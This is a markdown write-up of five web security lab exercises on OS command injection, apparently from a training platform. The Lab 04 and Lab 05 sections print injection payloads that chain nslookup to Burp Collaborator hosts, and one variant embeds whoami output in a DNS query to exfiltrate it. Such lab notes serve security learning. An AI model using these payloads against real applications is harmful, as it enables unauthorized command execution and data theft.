

# Command Injection - Walkthroughs

## Lab 01: OS command injection, simple case

Target Goal - Exploit command injection to execute whoami command.

## Analysis

---

## Lab 02: Blind OS command injection with time delays

Target Goal - Exploit blind command injection in the feedback function.

## Analysis

---

## Lab 03: Blind OS command injection with output redirection

Target Goal - Exploit the blind command injection and redirect the output from the whoami command to the /var/www/images

## Analysis

1. Confirm blind command injection
- email field

2. Check where images are store

3. Redirect output to file

4. Check if file was created

 

---

## Lab 04: Blind OS command injection with out-of-band interaction

Target Goal - Exploit blind OS command injection to issue a DNS lookup to Burp Collaborator

## Analysis

 & nslookup zorh37nyfzjbsg1nog7j9ml6zx5ntc.burpcollaborator.net #

---

## Lab 05: Blind OS command injection with out-of-band data exfiltration

Target Goal - Exploit blind OS command injection to execute whoami command and exfiltrate output via DNS query to Burp collaborator.

## Analysis

& nslookup bt82fvhfm8v8bcfri5e1gp72itojc8.burpcollaborator.net #

& nslookup `whoami`.bt82fvhfm8v8bcfri5e1gp72itojc8.burpcollaborator.net #

& nslookup $(whoami).bt82fvhfm8v8bcfri5e1gp72itojc8.burpcollaborator.net #

---

